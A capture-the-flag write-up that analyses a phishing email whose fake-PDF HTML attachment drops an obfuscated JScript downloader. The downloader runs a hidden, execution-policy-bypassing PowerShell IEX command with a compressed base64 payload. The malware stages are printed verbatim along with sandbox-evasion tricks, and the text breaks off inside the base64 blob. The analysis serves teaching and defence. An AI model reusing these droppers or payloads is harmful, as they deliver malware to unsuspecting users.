# Hypercraft

## Scenario

This email seems to have come from one of our agents, Axel Knight, but Axel has been missing for weeks, and we believe him to be compromised. The email claims to have information that could be vital to our winning this war, but before we use it, we want to make sure it is safe to open. Analyze the given email and see if it's real, or if it's just the Arodorians trying to phish us, and find the flag.

## Given artifacts

An `.eml` email file, containing malicious HTML attachment camouflaged as fake PDF

## Solving process

Opening the email to get the attachment, we can ignore the email content completely, just a typical phishing tone:



Upon inspecting the html, I search specifically for embedded script, and there is a long, obfuscated script found. I take it to `deobfuscate.io` to make it more readable. In fact, it's not too hard to read, but there are a lot of gibberish comments, and the variables' name are also randomly initialized:



The `pbmbiaan()` function is just perform XOR, simply it should be like this:

```javascript
function pbmbiaan(b64, key) {
    var raw = atob(b64);                                  // base64 → binary string
    var out = '';
    for (var i = 0; i < raw.length; i++) {
        out += String.fromCharCode(
            raw.charCodeAt(i) ^ key.charCodeAt(i % key.length)   // repeating-key XOR
        );
    }
    return out;
}
```

I will return to the main function that executes on-load later, after we have read all helper functions. Now let's move to the next:



It takes another base64 string, this time it is the payload itself, no need for XOR key, it just call `atob()` to convert that base64 string to an array and load chunk by chunk to a Blob. The chunking here is just cosmetic, the returned is byte-to-byte identical to the original decoded payload. The purpose of this function is perhaps to struggle AntiVirus a bit more. The readable version of it should be:

```javascript
function zgkhasgq(b64, chunkSize) {
    var chunks = [];
    var raw = atob(b64);
    for (var i = 0; i < raw.length; i += chunkSize) {
        var slice = raw.slice(i, i + chunkSize);
        var arr = new Array(slice.length);
        for (var j = 0; j < slice.length; j++) {
            arr[j] = slice.charCodeAt(j);
        }
        chunks.push(new Uint8Array(arr));
    }
    return new Blob(chunks, { type: "octet/stream" });
}
```

Moving to the next function:



We can copy the decode function to `onlinegdb.com` , and the encoded chunk to see what the script is trying to do:



So its clean version is as follow:

```javascript
function qbnhijkd(blob) {
    var filename = "[TOP SECRET]Hypercraft Plans" + ".zip";
    var file = new File([blob], filename, { type: "application/zip" });
    var url  = URL.createObjectURL(file);

    var a = document.createElement("a");
    document.body.appendChild(a);
    a.setAttribute("href", url);
    a.download = filename;
    a.click();
    URL.revokeObjectURL(url);
}
```

It wraps the Blob into a named File, gets a blob: URL for it, programmatically clicks an `<a download>` to make the browser save it to disk, then cleans up the object URL. This is the payload-delivery step — once this runs, a file lands in the user's Downloads folder.

Now that we know all functions, let's return to the main one: 

- First it create some cosmetic elements like image, some content... to make the page a bit more legit
- Then it reads the real payload + its chunk size out of two hidden `<div data="...">` attributes
- Lastly is the most noticeable part, it waits for a real user to move the mouse before executing and drop the file

Now let's simulate the dropper with a python script:

```python
import base64, re
from pathlib import Path

html = Path("_TOP_SECRET__Arodorian_Hypercraft_pdf.html").read_text()

def pbmbiaan(b64, key):
    raw = base64.b64decode(b64)
    return bytes(b ^ ord(key[i % len(key)]) for i, b in enumerate(raw))

ct  = re.search(r'id=[\'"]jzasjnpc[\'"][^>]*data="([^"]+)"', html).group(1)
key = re.search(r'id=[\'"]begjwbvi[\'"][^>]*data="([^"]+)"', html).group(1)

inner_b64 = pbmbiaan(ct, key).decode()
Path("drop.zip").write_bytes(base64.b64decode(inner_b64))
```

After unzipping the dropped file, we get another javascript file. It's still obfuscated with a lot of gibberish comments, once again, I use `deobfuscate.io` to make it readable:

```javascript
// ... payload stored in variables
var hfhwsgmb = 532;
while (hfhwsgmb > 0) {
  hfhwsgmb = Math.floor(Math.random() * 1e4) + 1;
  switch (hfhwsgmb) {
    case 532:
      hfhwsgmb = uwetjyhi.replace(/[sV]/g, "");
      var ooqajrjz = "";
      for (var ioxpkxez = 0; ioxpkxez < hfhwsgmb.length; ioxpkxez += 2) {
        ttjqepbj = hfhwsgmb.substr(ioxpkxez, 2);
        ooqajrjz += tjkdjlll(kmbvxuoa(ttjqepbj, 16));
      }
      cyfgvptr(ooqajrjz);
      hfhwsgmb = -532;
      break;
  }
}
function kmbvxuoa(eutxbhhz, eiexokbr) {
  ifhzpbrq = parseInt(eutxbhhz, eiexokbr);
  return ifhzpbrq;
}
function cyfgvptr(phfljyaj) {
  Function(phfljyaj)();
}
function tjkdjlll(dbcsdyyw) {
  var zjxkhodr = String.fromCharCode(dbcsdyyw);
  return zjxkhodr;
}
```

The switch statement is perhaps a trap that the author sets for analysts and sandbox VM. By setting the chance of dropping file to only around 0.01%, it efficiently bypass automated analysis, which often runs only 1 time. Anyway, let's try to hit that chance, we can either replace the evil `Function()` call (equivalent to `eval()`) with a print function or comment out the `cyfgvptr()` function call and add `console.log()` after it. In both case we will get the next stage payload, also a terribly obfuscated JS code:



I notice that most of the variables defined are unused, therefore, I try to keep only the related variables appearing in loop/if ... statement, then the code is simplified as below:

```javascript
xhhwtarcadepz = function(suadklsw) {
var twgoctfv={}; //keep
var ldarlpqp=0;//keep
var lkcbpepr=0;//keep
var xolcqgjr;//keep
var rstkcnio='';//keep
var enspnabr=String.fromCharCode;//keep
var cgopmyzu=suadklsw.length; //keep
var uvitiluo = "ABCDEFGHIJKLMNOPQRS";//keep
var anqueniw = uvitiluo + "TUVWXYZabcdefghijklmnopqrstu";//keep
var derxyhbz = anqueniw + "vwxyz0123456789+/"; //keep
for(iibigrqb=0;iibigrqb<64;iibigrqb++){
	twgoctfv[derxyhbz.charAt(iibigrqb)]=iibigrqb;//map each base64 char to its index
}
wlliykhz = 8;//keep
xvqehhfj = 255; //keep
kdtujfic = xvqehhfj-253;//keep
cpnyehmi = wlliykhz-kdtujfic;//keep, value=6
for(hsfmolvo=0;hsfmolvo<cgopmyzu;hsfmolvo++){
aipywtro=twgoctfv[suadklsw.charAt(hsfmolvo)];//get the index of each character
ldarlpqp=(ldarlpqp<<cpnyehmi)+aipywtro;lkcbpepr+=cpnyehmi;
while(lkcbpepr>=wlliykhz){
((xolcqgjr=(ldarlpqp>>>(lkcbpepr-=wlliykhz))&xvqehhfj)||(hsfmolvo<(cgopmyzu-kdtujfic)))&&(rstkcnio+=enspnabr(xolcqgjr));
}
}
return rstkcnio;
};
var keCarthagedf = 0;//keep
var yjdednyw = new Date();//keep
var atojqpvq = "YWtpaXNxYmNxemJlZ3V0aW50aGFsb2N5Y3B5dmpleGNkcWFvdWxvZXpqeWJzd2hla2F2ZW1yZWhjZHNieHJsb2Vkem15bmhzemdnZ3B1bXNvam9vdnFsaXBrYnRvcWpqa2VybGRrbmtmZmpzbmVjd3ZidXp5c3Fud2tvaWRia3IhV3NjcmlwdC5TaGVsbCFQb3dlUlNoRWxMIC1FWEVjVSAgYnlQQXNzICAgICdJRXgoTkVXLW9CSmVDVCAgU1lzVGVNLmlPLkNPbXBSZXNTaW9uLmRFZkxhVGVzdFJlQW0oIFtTeVNUZW0uSU8ubWVNT3JZU3RSZUFtXSBbY29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJydqVmY3YitKSUV2NTkvb29XNHRhZ0JJNTNIcXVUemtrWVFqYVFCRXdnTXpkU045QVFUNHdodGdrd0hQLzcxbGNkMjVtOUc5MGhhT3p1cXE5ZUQ1ZEZ2K2tVMmxHekkzS1pSenZJSEdYYWlwWUwrbm42dlBhamxNa0xrZnZxN0ZiTmI3bk12bkxZVncvNzhtRmZPbVJFWVdZdHA2N2ZzbzZ0b3ZZdjZTOTg2anZ";//keep
var svmnayxo = atojqpvq + "OUmRHaFM3Mk5MR0tsNys5Q2lQQk5pUGI4TTBFSmtZQXhqSUZrc0R2L1VSTm4veWwwbXAzaWhDNEQramt4VFBnb2NsYTkrV2dkV1Y2Zk5uTmZvOTFLdndNUkNxdjBXVmhOWW1vdm9kU3NmV3ZsalFhL0VWbU5OU2Y5V1dxbU1CTlc0RUxWcUVEckpPb3NweXcvd2tJQ0NvODZDTjJsTHlxZlptdC9FdUZ5OERTUjIxZVJ5KzZkcmx6b3czRjJmL244SXVkTDJWNTdoN3pZZnlKcnhXd1pnRVN2RjlMcmJHVjNONWdmeEQ5RTZYZUJUYm00bFoxdDkybE5td1V2b2oxSGRqdk5RekV6a1hjRFA4cUFyTG1XblZ2RDJ6b2NIY1hJOUluSnZ4TFdvRU1DNU1qZnJWdUhieVNCaEVheXUzZy9YTWpiQlNGSWMxb1liMG10N0g0aXIvOW9MYVU3SUgwWjg4QnJvS04xNENOQzgyWlVlRk85dGozMk5LVkZqWExoQytkQjRWSGQ1cy9QTTNZb0wxMDNVOHpNbTA0b0hkbHIrL01NUkhkbFJ4UG9JZlZYYnlLdjdFaGVxaHRIN045RjVNckZZcmtoL2kyS09ldHZWbjR2ckgzcGZIU3dLQWRFRG9FeVdWSG1yQkJXQzBGUi9uUzVvUCtvMEVOa09tb3J5bzI4SUk4WHZpOWRYMWpXNFJNNVRjSWhDem5xN3VTZzllUEgzUjNjSG1QR2dJTWRjblg3eWpuVTM0V1JYaFF2ZHBIKyt1MmIrR2V1dEMycDQ5SzIzRWlXQ2kzMVUxcHEwM2dwbCtQVEVtNUxHc3NKbGtuTVlmYXF5UjQ0YXJoSzRVdWxCTTljVWJLZW5lYkprSEQ5SUIvQzl0eGo";//keep
var wtuvcrbr = svmnayxo + "vWXR4c1JqOUwwbjFZN0xpVi9wWElhb0tVZFVHSVo2V2dEaVNvZHo2YWlVZm00bFBEQ1pWM2p2ZzVhOFFhekNvREZ0TzJBWEE1dVVFYnFuelhuSmw2R0JRSFZmMVdYeFF4NTQ1aFliMWVueGFnNnVZdU1iRXpBWXZNU2h6Tk1ZSlJ4SU93NEVEWmpOMDBDbzlxSi9GOEExR3JzVjdyTXU3UXVTakJ2bm90NXcxbVpJSHlGZDlxaHFiWEtXUlZKTmRUejZONU9iNXRmTXhHbkhIb1lDZ1lmVFFRcTVzNTlLK29aNXp4RlFtNS82ZmxHc2dkNnBRc1FLMXE0cDBPcWtpYmxTOTNkWi95NElwQWE0MkpDdVJoS2JHUjg2eUg2RjFvcm41Y3l0ZmJQdHZ5eGVkeTRzallmM0xvcFd0ZWhwdDVMVWtxMGpNY0x6cHlMbDh1RWhFY1FXYS9CRFdEVXdrMjJBb1dZbXVlbVRJek9NZ2NZYWh0UEVFaUttSm1BU3M1VTF2Q1BEc0I5ZXd0cHZucFNMS2hXc0ltNFBPN1dJa3FUMjIrbkpvajZWMzE3ei9pd05JenU2OUNuN2xVYzQ0azYzSW1tcFN1cHpMalNUOFRGZUYremxOVHBBaEhBM09iODY0RDluS2ljL3BoUFEwS0VpMktrNGJTTW9HQ3B0UDY3ZzZBVEduWjQxTG5QRWdvd1l";//keep

var tiogqfbg = wtuvcrbr + "aVEZka";//keep

var vftbkkmw = tiogqfbg + "ktPWmxFaGFlOHJMT09LaXlhbHdiYkZHaU0vT2FDbU9kV1FQZVl6YmNHdHZZaExUV0lKZEJqWDRKbmtIaEpzSzhvR05QTmxJZjRNRHdzdUxjSGRrT3JycEV4Z2szQ1VabUFGNVlHaGIyTXlOenk2cXpTMUtmNG9ydE5ienNLL1pMRWtIV2p4dUMwWStyaU0ySDNEUWVOZFlsN1R5SmxTbWQ4VE1EcExIa25zMGVaNUZwUEZncjNMTGlKbDk0ajNYaG9DUzJjY3paOGxRR1I4dkVNc2xUb3granNDUFlCK2hWMVRNcXQxcitkeXFPUURaNzQySFVlME5CaUt3N241MmZtNnFJeHhxYWNyaGlWYWdiTlNxUXp3RS9ONmtodUQ3OVg5RHZRMGN3NDRnbk96UkN5TUU4SEVyN3dwTjN6UldQQnJrNWpVYVBLbkR0OFMxTkF1L0QxeTFtSTh3Q05BcjhwUlZhVklBaFNkandYQlZwNVhuamo4S29tZmt0ekV3OTNaTVhHK24wSGc5c2x3cmx5dys1dXBhRGxmMDlLZmE0ZjFvcllGSnYvcm5YMFVIUzZXRGJmM1k2UW41N1dNbit4VWpPZHdZWHo3M0VWM0VMb2laMUhIY3UwN1pNTDFKU1J6MFpUdVVzNFUzYUlqTlNDeUx1TGRiQjA2OWEwUm5DZVlyQ09FT2NGY3Btak9ocUZJSENnVUllbmlLbHg3d2c3T2FXNlVCeWlrVFdvRk9Na25MZzRBeDV5TGVNTjRaSVp1TmJQdEJJUzFXaFhLcFUrTkVTeVpmWGdJYlIvdXorQ3ZaWkdUd2FmcG9NeFA4Y0RTckkrQXFYUXZLYzV0VGxBek9Gd0JwendHMkRpVkZmekZZeHAzamcxUkcyVEpZR1Y1cGI4UUQ0OG1WNWx3M1hyNjk5dDNYNzl5ekZNaHlQV3J2ditRemlTK3FTRmJyM0lDY2NuM2ZGYWN5bkFEYzR3UFg0Y2VHbzhNWG1rWlRNNmVwTm9VLy9IaVpML0NiUHRPQ0JPbDFqdW15U245ZVJKbFZVLzQ4dnErdjF2ZnFlbmV5Q3A5R1FoZ0NLdkIzTTF3dnQ4K2orSWg5a2IrR0Y4dlBxQ2svU2FOVzl1cm1YRzJrcktQVnhXb0JxcEJkcFYyZWxJRFhXQmE4N2VnbzE3MDJsYXRLRnR0MlY4cUFxNlpYSkRtNkNUUVo1MlY3UDVGVHVoaW9NWWlIbTdZWU1OcUxlMzZuYytSd0drb3pKTTgvUjRZdURnc0d2aTQzcDJpT3";//keep

var bxmanhtn = vftbkkmw + "hzUHJPbjJneUxmbzRMNXY1T3lxZ1BsU2tVWUgyZEhxbGRtR3VUQ3c5dmRLUkM2KzIvVWdIYjhwTDBpZnRDU3NWKzl4eEYveUNCV25BRUQ5alhLMER4UzhOSDBZc0xsWDRLc1hBcktEaHNwV0tnWExWUnAwTGRpbzNrV01QWDdleFY4Z2Y1Qmd5aHZ4dXVtUThKTEhaOU1yNkFxZ29jdjE1Mk5kb0FhbS9PQUxzSlpaMDdVNm4ycWVYajdVWHVTdFB0LzB3VXVTMGtGNlNmbW9vMXIyQ2Z6VUNSeTBRdkxibkxUZjlTQVZSZTNiblg2aUkzT1hxOEZNNmFaRnFKajBJaWRPRDVqaUF6RjEwVkl5WHhJSVgxVFNTY2ZnZ0FKblRWUXROS1RrY0R4ZVk1Y2IwZW1seUh1K1RnWHhGbVJTY0FEbUJGMEc3TFFlVVJrODBaZlVwalFwa1BydUJqcVpENlJnLy9naz0nJyksW1N5U3RFTS5JTy5DT01QcmVTU0lPTi5jT01QUmVzc0lPTm1vZEVdOjpERUNPTVBSZVNTKXwgRk9yRWFjaHtORVctb0JKZUNUICBpTy5zVFJlQU1SRWFERXIoICRfLFtTWXNUZU0uVEV4dC5lTmNvZGlOZ106OkFzQ2lpICkgfSApLnJlYURUT0VuZCggKScKIXJ1biFBY3RpdmVYT2JqZWN0IWtkcWJ2emZwbXNjZWpzdGlwbW96amNqd2x1cnVoYXVmZ2h1dHJvYXlweHhtbWFwZXF0Y3Z4bm91bmtwcWxpemR1a2Z4aWZreXFneWlvb3BkcGhrZWhyZGxmaW96dm94aW16Z3phZ2tpeG9wZW5wb3ZuYWNwbGRsend6a2lpdmVv";//keep

var ynvjonvw = xhhwtarcadepz(bxmanhtn).split("!");//keep

ugerrorfkln=new this[ynvjonvw[94052-94048]](ynvjonvw[75319-75318]);//keep

ugerrorfkln.PopUp("This document is corrupt.",10,"ERROR",48);
while (true) {
WScript.Sleep(10);
var qhchhvwd =  new Date();//keep
if ((qhchhvwd - yjdednyw) > (14*60*(693+235)) ){
ugerrorfkln[ynvjonvw[606-603]](ynvjonvw[56969-56967], keCarthagedf);
break;
}
}
;
```

Notice that the `xhh...()` function is just `atob()`, base64 decoder, but implemented from scratch with gibberish variables' name. Now I will get `ynvjonvw's` content by running it in the console:



It is an array of 5 elements, and `ugerrorfkln` is initialized as a new `ActiveXObject("WScript.Shell")`

The pop-up is a decoy — it pops up a fake "document is corrupt" error to distract the user while the malware runs silently in the background.

After that, the next call is:

```javascript
ugerrorfkln["run"](powershell_script, keCarthagedf);
```

Which is just: 

```javascript
new ActiveXObject("WScript.Shell").run(powershell_script, 0);
```

Where the powershell script is:

```powershell
PoweRShElL -EXEcU  byPAss    'IEx(NEW-oBJeCT  SYsTeM.iO.COmpResSion.dEfLaTestReAm( [SySTem.IO.meMOrYStReAm] [convert]::FromBase64String(''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